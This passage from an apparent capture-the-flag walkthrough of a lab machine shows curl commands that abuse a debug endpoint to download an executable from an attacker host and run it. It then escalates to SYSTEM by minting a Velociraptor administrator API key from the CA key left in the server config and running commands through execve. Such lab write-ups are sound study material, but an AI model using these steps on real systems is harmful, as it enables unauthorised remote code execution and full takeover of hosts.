 ```terminal
# upload
curl --negotiate -u : -X POST http://lus2dc.lustrous2.vl/File/Debug -d 'pin=***&command=iwr http://10.8.0.101:8000/share.exe -outfile c:\programdata\share.exe'

# run
curl --negotiate -u : -X POST http://lus2dc.lustrous2.vl/File/Debug -d 'pin=***&command=c:\programdata\share.exe'
```

## Escalating privileges using velociraptor 

Local enumeration shows, that this machine is both a Velociraptor server and client. Velociraptor is a tool for digital forensics & incident response that is primarily meant to give visibility into endpoints. The application can be found here:

```terminal
C:\Users\ShareSvc>dir "\Program Files"
 Volume in drive C is System
 Volume Serial Number is 58B1-CECF

 Directory of C:\Program Files

...
09/06/2024  08:35 AM    <DIR>          Velociraptor
09/06/2024  08:34 AM    <DIR>          VelociraptorServer
...
               0 File(s)              0 bytes
              17 Dir(s)   4,107,612,160 bytes free 
```

In the server directory, there is a `server.config.yaml` file which contains a certificate. This is default on Velociraptor installations - the [docs](https://docs.velociraptor.app/docs/deployment/security/) encourage you to delete those *security reasons* but it's not enforced:

```plaintext
In a secure installation you should remove the CA.private_key section from the server config and keep it offline. 
```

Using these certificates, it's possible to create an API key and then perform actions as administrator inside the application using the [server api](https://docs.velociraptor.app/docs/server_automation/server_api/).

```batch
C:\PROGRA~1\VelociraptorServer>velociraptor-v0.72.4-windows-amd64.exe --config server.config.yaml config api_client --name admin --role administrator c:\temp\api.config.yaml
```

Now we can run queries as administrator against the API, allowing us to use `execve` to run system commands:

```batch
C:\PROGRA~1\VelociraptorServer>velociraptor-v0.72.4-windows-amd64.exe --api_config c:\temp\api.config.yaml query "SELECT * FROM execve(argv=['cmd','/c','whoami'])
velociraptor-v0.72.4-windows-amd64.exe --api_config c:\temp\api.config.yaml query "SELECT * FROM execve(argv=['cmd','/c','whoami'])
[
 {
  "Stdout": "nt authority\\system\r\n",
  "Stderr": "",
  "ReturnCode": 0,
  "Complete": true
 }
]
```
